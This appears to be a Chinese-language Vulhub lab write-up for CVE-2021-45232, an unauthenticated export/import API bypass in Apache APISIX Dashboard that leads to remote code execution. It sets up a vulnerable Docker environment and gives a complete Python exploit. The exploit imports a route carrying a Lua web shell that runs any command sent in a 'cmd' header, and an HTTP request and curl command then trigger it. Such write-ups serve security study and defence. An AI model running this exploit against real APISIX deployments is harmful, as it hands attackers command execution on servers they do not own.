





Apache APISIX Dashboard API权限绕过导致RCE CVE-2021-45232¶
Apache APISIX是一个动态、实时、高性能API网关，而Apache APISIX Dashboard是一个配套的前端面板。
Apache APISIX Dashboard 2.10.1版本前存在两个API/apisix/admin/migrate/export和/apisix/admin/migrate/import，他们没有经过droplet框架的权限验证，导致未授权的攻击者可以导出、导入当前网关的所有配置项，包括路由、服务、脚本等。攻击者通过导入恶意路由，可以用来让Apache APISIX访问任意网站，甚至执行LUA脚本。
参考链接：
- https://apisix.apache.org/zh/blog/2021/12/28/dashboard-cve-2021-45232/
- https://github.com/wuppp/cve-2021-45232-exp
漏洞环境¶
Vulhub执行如下命令启动一个有漏洞的Apache APISIX Dashboard 2.9：
docker-compose up -d
然后访问http://your-ip:9000/即可看到Apache APISIX Dashboard的登录页面。

漏洞复现¶
利用/apisix/admin/migrate/export和/apisix/admin/migrate/import两个Apache APISIX Dashboard提供的未授权API，我们可以简单地导入一个恶意配置文件，其中包含我们构造的LUA脚本：

注意的是，这个配置文件的最后4个字符是当前文件的CRC校验码，所以最好通过自动化工具来生成和发送这个利用数据包，比如这个POC。
apisix_dashboard_rce.py
#!/usr/bin/env python3
import zlib
import json
import random
import requests
import string
import sys
from urllib3.exceptions import InsecureRequestWarning
# Suppress only the single warning from urllib3 needed.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)
eval_config = {
"Counsumers": [],
"Routes": [
{
"id": str(random.randint(100000000000000000, 1000000000000000000)),
"create_time": 1640674554,
"update_time": 1640677637,
"uris": [
"/rce"
],
"name": "rce",
"methods": [
"GET",
"POST",
"PUT",
"DELETE",
"PATCH",
"HEAD",
"OPTIONS",
"CONNECT",
"TRACE"
],
"script": "local file = io.popen(ngx.req.get_headers()['cmd'],'r') \n local output = file:read('*all') \n file:close() \n ngx.say(output)",
"status": 1
}
],
"Services": [],
"SSLs": [],
"Upstreams": [],
"Scripts": [],
"GlobalPlugins": [],
"PluginConfigs": []
}
def random_str():
return ''.join(random.choices(string.ascii_letters + string.digits, k=6))
def calc_crc(data):
crc32 = zlib.crc32(data) & 0xffffffff
return crc32.to_bytes(4, byteorder="big")
def export_data(url):
r = requests.get(url + "/apisix/admin/migrate/export", verify=False)
return r.text[:-4]
def import_data(url, data):
data = json.dumps(data).encode()
crc32 = calc_crc(data)
files = {"file": ("data", data + crc32, "text/data")}
resp = requests.post(url + "/apisix/admin/migrate/import", files=files, verify=False)
# print(resp.text)
if resp.json().get("code", -1) == 0:
return True
else:
return False
if __name__ == "__main__":
if len(sys.argv) != 2:
print("python " + sys.argv[0] + " http://127.0.0.1:9000")
exit()
url = sys.argv[1]
if url.endswith("/"):
url = url[:-1]
uri = random_str()
eval_config["Routes"][0]["uris"] = [ "/" + uri]
eval_config["Routes"][0]["name"] = uri
if import_data(url, eval_config):
print("attack success")
print("uri is: " + "/" + uri)
else:
print("attack error")

添加完恶意路由后，你需要访问Apache APISIX中对应的路径来触发前面添加的脚本。值得注意的是，Apache APISIX和Apache APISIX Dashboard是两个不同的服务，Apache APISIX Dashboard只是一个管理页面，而添加的路由是位于Apache APISIX中，所以需要找到Apache APISIX监听的端口或域名。
在当前环境下，Apache APISIX监听在9080端口下。我们发送数据包：
GET /LQsRF0 HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0

也可以通过之前的POC实现命令执行：
curl http://your-ip:9080/LQsRF0 -H "cmd: id"

可见，我们在Header中添加的CMD头中的命令已被执行。
这个漏洞是Apache APISIX Dashboard的漏洞，而Apache APISIX无需配置IP白名单或管理API，只要二者连通同一个etcd即可。